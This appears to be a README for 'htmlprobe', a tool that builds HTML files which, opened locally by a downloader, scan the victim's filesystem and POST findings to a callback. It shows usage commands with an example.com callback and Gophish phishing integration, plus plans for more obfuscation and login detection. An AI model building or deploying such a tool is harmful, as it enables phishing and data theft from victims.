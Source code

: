 # Description
Generates a .HTML file that upon opening via. the file:// protocol (download and open) probes
the hosts filesystem to exfiltrate information that can be used later on.

The .HTML will send a POST request to the callback URL with form encoded data.

# Usage
 
 Simple usage - replace callback with were you want the data sent.
`htmlprobe -callback "https://example.com/callback"`

Gophish usage
`htmlprobe -callback "{{.URL}}"`

# Ideas
 - Based on the path of the opened file, which most oftenly would be in the Downloads folder,
it should be possible to know (atleast on windows) which language i used, and use that 
prefix for the file enumeration.
 - Pull in dictionaries after loading the script, this could depend on initial analysis (OS, language etc)
 - After submission callback, a method that is to be called after the probe callback has happend.
 - More obfuscation techniques. 
 - It is possible to identify some login on other sites via. loading images that have different urls depending on state, see social media leaks.